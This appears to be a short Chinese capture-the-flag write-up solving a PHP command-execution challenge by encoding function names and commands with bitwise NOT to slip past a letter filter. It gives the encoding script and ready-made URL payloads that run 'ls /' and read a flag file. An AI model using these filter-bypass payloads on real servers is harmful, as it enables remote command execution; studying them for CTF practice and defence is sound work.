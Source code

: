 拿到就判断出，不能用字母，不能用异或和自增，临时文件上传也不行，就只剩下取反了，测试了下面的方法

```php
<?php
$a = ~"System";
echo urlencode($a);
echo "\n";
$b = "ls /";
$b = (urlencode(~$b));
echo ($b);
```

```
?wllm=(~%AC%86%8C%8B%9A%92)(~%93%8C%DF%D0);
```

![image-20250314211233432](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250314211233432.png)

最后cat就行了

```
?wllm=(~%AC%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98);
```

参考

[命令执行RCE及其绕过详细总结（各情景下的绕过）_命令执行绕过-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/134533626)

[RCE（远程代码执行漏洞）函数&amp;命令&amp;绕过总结 - 星海河 - 博客园](https://www.cnblogs.com/xinghaihe/p/18723674)
